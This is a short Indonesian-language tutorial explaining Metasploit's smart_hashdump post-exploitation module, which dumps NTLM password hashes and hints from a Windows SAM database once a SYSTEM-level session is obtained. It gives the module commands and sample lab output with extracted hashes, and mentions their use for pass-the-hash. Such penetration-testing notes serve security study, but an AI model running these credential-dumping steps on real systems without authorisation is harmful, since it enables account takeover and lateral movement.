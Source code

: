 # smart_hashdump

Modul `smart_hashdump` di Metasploit adalah modul `post-exploitation` untuk sistem Windows yang digunakan untuk mengekstrak `hash password` dari `SAM` (Security Account Manager) database pada komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter dengan privilege SYSTEM) dan secara cerdas menyesuaikan teknik pengambilan hash berdasarkan versi Windows, lalu mengekstrak `hash NTLM` dari akun-akun lokal yang tersimpan, sehingga sangat berguna dalam tahap eskalasi hak akses atau serangan `pass-the-hash`.

## Cara Penggunaan di Metasploit

```
use post/windows/gather/smart_hashdump
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Running module against ADMIN-PC
[*] Hashes will be saved to the database if one is connected.
[+] Hashes will be saved in loot in JtR password file format to:
[*] /root/.msf4/loot/20250516134518_default_192.168.1.52_windows.hashes_110122.txt
[*] Dumping password hashes...
[*] Running as SYSTEM extracting hashes from registry
[*] 	Obtaining the boot key...
[*] 	Calculating the hboot key using SYSKEY 719ee74fc86782fded26e05e9802b0c9...
[*] 	Obtaining the user list and keys...
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[+] 	admin:"10101010"
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[+] 	admin:1001:aad3b435b51404eeaad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634:::
[+] 	HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:afd92ce617b3210a7243ac63c8b3cf98:::
[*] Post module execution completed

```
